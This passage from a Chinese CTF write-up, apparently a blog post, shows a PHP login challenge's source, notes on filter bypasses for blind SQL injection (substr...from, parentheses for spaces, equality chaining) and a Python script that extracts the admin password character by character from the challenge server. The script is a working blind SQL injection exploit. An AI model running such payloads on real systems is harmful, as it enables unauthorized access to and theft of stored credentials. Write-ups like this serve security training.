 }

<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">source</span><span class="hljs-params">()</span>{</span>

    highlight_file(<span class="hljs-keyword">__FILE__</span>);
}

<span class="hljs-variable">$username</span> = <span class="hljs-keyword">isset</span>(<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'username'</span>])?filter(<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'username'</span>]):<span class="hljs-string">""</span>;
<span class="hljs-variable">$passwd</span> = <span class="hljs-keyword">isset</span>(<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'passwd'</span>])?filter(<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'passwd'</span>]):<span class="hljs-string">""</span>;

<span class="hljs-variable">$action</span> = <span class="hljs-keyword">isset</span>(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'action'</span>])?filter(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'action'</span>]):<span class="hljs-string">"source"</span>;

<span class="hljs-keyword">switch</span>(<span class="hljs-variable">$action</span>){
   <span class="hljs-keyword">case</span> <span class="hljs-string">"source"</span>: source(); <span class="hljs-keyword">break</span> ;
   <span class="hljs-keyword">case</span> <span class="hljs-string">"login"</span> : login(<span class="hljs-variable">$username</span>,<span class="hljs-variable">$passwd</span>);<span class="hljs-keyword">break</span>;
   <span class="hljs-keyword">case</span> <span class="hljs-string">"show"</span> : show(<span class="hljs-variable">$username</span>);<span class="hljs-keyword">break</span>;
}
</span></code></pre>
<p>需要注意以下几点 <br>
1.数据库不会内容变 <br>
2.show函数可以注入能用的字符串有select from () substr ’ <br>
3.show 可以盲注</br></br></br></p>
<p>盲注姿势 <br>
1.绕过，利用<code>substr(user())from(1)</code> <br>
2.绕过空格 利用（） <br>
3.闭合引号，因为没有注释符所以只能用连等式 <br>
4.连接符选择 使用/连接</br></br></br></br></p>
<p>首先找到盲注点 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170417170034684?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
写盲注脚本</br></img></br></p>
<pre class="prettyprint"><code class=" hljs livecodeserver">import requests
<span class="hljs-keyword">string</span> = <span class="hljs-string">''</span>
<span class="hljs-keyword">for</span> i <span class="hljs-operator">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">33</span>):
    <span class="hljs-keyword">for</span> j <span class="hljs-operator">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">126</span>):
        url=<span class="hljs-string">"http://117.34.111.15:89/?action=show"</span>
        s1 = <span class="hljs-string">"admin'/1=(ascii(substr((select(passwd)from(user))from({})))={})/'1'='1"</span>.<span class="hljs-built_in">format</span>(str(i),j)
        data = {
            <span class="hljs-string">'username'</span>:s1
        }
        s=requests.<span class="hljs-built_in">post</span>(url=url,data=data)
        content=s.content
        <span class="hljs-built_in">length</span>=<span class="hljs-built_in">len</span>(content)
        print <span class="hljs-built_in">length</span>
        <span class="hljs-keyword">if</span> <span class="hljs-built_in">length</span> != <span class="hljs-number">21</span>:
            <span class="hljs-keyword">string</span>+=chr(j)
            break
    print <span class="hljs-keyword">string</span> 